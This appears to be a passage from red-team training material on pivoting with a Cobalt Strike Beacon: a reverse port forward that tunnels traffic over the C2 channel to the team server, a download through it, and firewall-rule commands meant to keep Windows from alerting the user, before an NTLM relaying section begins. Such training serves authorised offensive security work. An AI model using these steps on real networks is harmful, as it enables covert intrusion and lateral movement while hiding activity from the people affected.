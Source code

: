 We know of course that Workstation 2 does - so we can create a reverse port forward to relay traffic between Domain Controller 2 and our team server.

```
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

This will bind port 8080 on Workstation 2.

```
beacon> run netstat -anp tcp
TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Any traffic hitting this port will be tunnelled back to the team server over the C2 channel.  The team server will then relay the traffic to the forward host/port, then send the response back over Beacon.  Now, we can download the file via this port forward.

```
PS C:\Users\Administrator> iwr -Uri http://wkstn-2:8080/a

StatusCode        : 200
```

**OPSEC**  
  
When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule.  
  
![](https://files.cdn.thinkific.com/file_uploads/584845/images/9f7/2d7/24e/alert.png)

You must therefore create an allow rule **before** running a reverse port forward using either `netsh` or `New-NetFirewallRule`, as adding and removing rules does not create a visible alert.

```
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

You can delete a firewall rule later by its `DisplayName`.

```
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
```


## NTLM Relaying

---

NTLM authentication uses a 3-way handshake between a client and server.  The high-level steps are as follows:

1. The client makes an authentication request to a server for a resource it wants to access.
2. The server sends a challenge to the client - the client needs to encrypt the challenge using the hash of their password.
3. The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.
